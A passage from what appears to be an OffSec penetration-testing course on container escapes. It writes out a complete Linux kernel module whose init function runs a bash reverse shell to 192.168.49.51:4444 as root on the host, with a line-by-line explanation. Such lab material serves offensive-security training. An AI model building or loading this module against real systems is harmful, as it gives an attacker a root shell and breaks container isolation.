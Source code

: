 > Listing 28 - Installing Dependencies

Once installed, we'll create a directory to hold our exploit and name it **/exp**. We'll **cd** into that directory and create the **reverse-shell.c** file, which will contain the code for our kernel module reverse shell.

```
root@compiler:/# mkdir exp

root@compiler:/# cd exp

root@compiler:/exp# nano reverse-shell.c

root@compiler:/exp# cat -n reverse-shell.c
     1  #include<linux/module.h>
     2  #include<linux/kmod.h>
     3
     4  MODULE_LICENSE("GPL");
     5
     6  static char command[] = "bash -i >& /dev/tcp/192.168.49.51/4444 0>&1";
     7
     8  static int start_listener(void){
     9          char *argv[] = {"/bin/bash", "-c", command, NULL};
    10          static char *env[] = {"HOME=/", NULL};
    11          return call_usermodehelper(argv[0], argv, env, UMH_WAIT_PROC);
    12  }
    13
    14  static void kill_listener(void){
    15          printk(KERN_INFO "Exiting\n");
    16          return;
    17  }
    18
    19  module_init(start_listener);
    20  module_exit(kill_listener);
```

> Listing 29 - Creating Reverse Shell Kernel Module

The code starts by importing the required libraries on the first two lines. Next, we need to specify the license or the _compiler_ will throw an error. On line 6, we'll specify the command we want to run. In this command we'll use a common _bash reverse shell_, which points back to our Kali IP on port 4444.

Next, we need to define how the module should initialize and exit. We'll start with the initialization by creating a function called _start_listener_ on lines 8-12. This function will create an _argument vector_ with the command we want to run, set up the _environmental variables_ required for the command to work, and run it through the _call_usermodehelper_[1](https://portal.offsec.com/learning-paths/cloud-attacks-container-escapes-skill-path-178608/learning/container-escapes-interacting-with-the-host-51510/executing-commands-51564/labs-51511#fn-local_id_187-1) function. We want our reverse shell to run as the _root_ user on the host as a user mode application and the _call_usermodehelper_ function will do that for us. On line 19, we'll indicate that we want _start_listener_ as the function to be called at insertion time by calling the _module_init_[2](https://portal.offsec.com/learning-paths/cloud-attacks-container-escapes-skill-path-178608/learning/container-escapes-interacting-with-the-host-51510/executing-commands-51564/labs-51511#fn-local_id_187-2) macro.
